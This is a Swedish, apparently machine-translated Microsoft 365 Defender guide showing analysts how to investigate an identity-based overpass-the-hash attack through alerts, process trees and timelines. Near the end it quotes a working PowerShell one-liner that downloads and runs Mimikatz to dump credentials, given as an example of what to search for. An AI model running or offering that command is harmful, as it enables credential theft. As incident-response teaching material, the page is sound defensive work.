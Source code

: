 ```yaml
---
title: Exempel på en identitetsbaserad attack
description: Gå igenom en exempelanalys av en identitetsbaserad attack.
keywords: incidenter, varningar, undersöker, korrelation, attack, datorer, enheter, användare, identiteter, identiteter, postlåda, e-post, 365, microsoft, m365, incidentsvar, cyberattack
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 204530b8b4a87215053ddcb0434e40e45271da3d
ms.sourcegitcommit: 4fb1226d5875bf5b9b29252596855a6562cea9ae
ms.translationtype: MT
ms.contentlocale: sv-SE
ms.lasthandoff: 06/08/2021
ms.locfileid: "52841012"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exempel på en identitetsbaserad attack

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gäller för:**
- Microsoft 365 Defender

Microsoft Defender för identitet kan hjälpa till att identifiera skadliga försök att avslöja identiteter i organisationen. Eftersom Defender för identitet integreras med Microsoft 365 Defender kan säkerhetsanalytiker se hot som kommer in från Defender för identitet, till exempel misstänkta Netlogon-behörighetsförsök.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analysera attacken i Microsoft Defender för identitet

Microsoft 365 Med Defender kan analytiker filtrera aviseringar efter identifieringskälla **på fliken** Aviseringar på sidan Incidenter. I följande exempel filtreras identifieringskällan till **Defender för identitet.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Exempel på filtrering av identifieringskällan för Defender för identitet":::

Om du **väljer den misstänkta overpass-the-hash-attackvarningen** går du till en sida i Microsoft Cloud App Security som visar mer detaljerad information. Du kan alltid ta reda på mer  om en avisering eller [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) attack genom att välja Läs mer om den här aviseringstypen för att läsa en beskrivning av attacken samt åtgärdsförslag.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Exempel på misstänkt överpass-hash-attackvarning"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Undersöker samma attack i Microsoft Defender för Endpoint

En analytiker kan också använda Defender för Endpoint om du vill veta mer om aktiviteten på en slutpunkt. Välj incidenten i incidentkön och välj sedan **fliken** Aviseringar. Härifrån kan de även identifiera identifieringskällan. En identifieringskälla som heter Identifiering och åtgärd på slutpunkt det här kallas slutpunktsidentifiering och -svar, som är Defender för Slutpunkt. Härifrån väljer analytikern en avisering som identifieras av Identifiering och åtgärd på slutpunkt.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Exempel på identifiering och svar av slutpunkt i Defender för slutpunkt"::: 

På aviseringssidan visas olika relevant information, till exempel den påverkade enhetens namn, användarnamn, status för automatisk undersökning och aviseringsinformationen. I varningsartikeln visas en visuell representation av processträdet. Processträdet är en hierarkisk representation av överordnade och underordnade processer som är relaterade till aviseringen.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Exempel på ett aviseringsprocessträd i Defender för Slutpunkt"::: 

Varje process kan utökas för att visa ytterligare information. Information som en analytiker kan se är de faktiska kommandon som har angetts som en del av ett skadligt skript, utgående anslutnings-IP-adresser och annan användbar information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Exempel på processinformation i Defender för Slutpunkt":::
 
Genom att **välja Visa på tidslinjen** kan en analytiker granska nedåt ytterligare för att fastställa den exakta tiden för kompromissen. 

Microsoft Defender för Endpoint kan identifiera många skadliga filer och skript. På grund av många legitima användningsområden för utgående anslutningar, PowerShell och kommandoradsaktivitet anses dock en del aktivitet vara aktiv tills den skapar en skadlig fil eller aktivitet. Därför hjälper användning av tidslinjen analytiker att sätta aviseringen i sitt sammanhang med den omgivande aktiviteten för att fastställa den ursprungliga källan eller tiden för attacken som annars döljs av vanliga filsystem och användaraktivitet. 

För att göra detta skulle en analytiker börja vid tiden för aviseringsidentifiering (i rött) och rulla nedåt bakåt i tiden för att avgöra när den ursprungliga aktiviteten som ledde till den skadliga aktiviteten faktiskt startade. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Exempel på att starta vid tiden för aviseringsidentifiering"::: 

Det är viktigt att förstå och urskilja vanlig aktivitet, till exempel Windows Uppdatera anslutningar, Windows Aktiveringstrafik för betrodd programvara, andra vanliga anslutningar till Microsoft-webbplatser, Internetaktivitet från tredje part, Microsoft Endpoint Configuration Manager-aktivitet och annan aktivitet på misstänkta webbplatser. Ett sätt att uppnå det här är att använda tidslinjefilter. Det finns många filter som kan markera viss aktivitet när du filtrerar bort något som analytikern inte vill visa. 

I bilden nedan har analytikern filtrerats för att endast visa nätverks- och processhändelser. Då kan analytikern se nätverksanslutningar och processer kring händelsen där Anteckningar upprättat en anslutning med en IP-adress, vilket vi också såg i processträdet. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Exempel på hur Anteckningar användes för att skapa en skadlig utgående anslutning"::: 

I den här händelsen Anteckningar en skadlig utgående anslutning. Men ofta används bara iexplorer.exe för att upprätta anslutningar för att ladda ned en skadlig nyttolast eftersom iexplorer.exe vanligtvis anses vara vanlig webbläsaraktivitet.

Ett annat objekt att leta efter på tidslinjen skulle vara PowerShell-användningsområden för utgående anslutningar. Analytikern letar efter lyckade PowerShell-anslutningar med kommandon som följt av en utgående anslutning till `IEX (New-Object Net.Webclient)` en webbplats som är värd för en skadlig fil. 

I följande exempel användes PowerShell till att ladda ned och köra Mimikatz från en webbplats:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
En analytiker kan snabbt söka efter nyckelord genom att skriva in nyckelordet i sökfältet för att endast visa händelser som skapats med PowerShell. 

## <a name="next-step"></a>Nästa steg

Se sökvägen till nätfiskeundersökningen. [](first-incident-path-phishing.md)

## <a name="see-also"></a>Se även

- [Översikt över incidenter](incidents-overview.md)
- [Hantera incidenter](manage-incidents.md)
- [Undersöka incidenter](investigate-incidents.md)
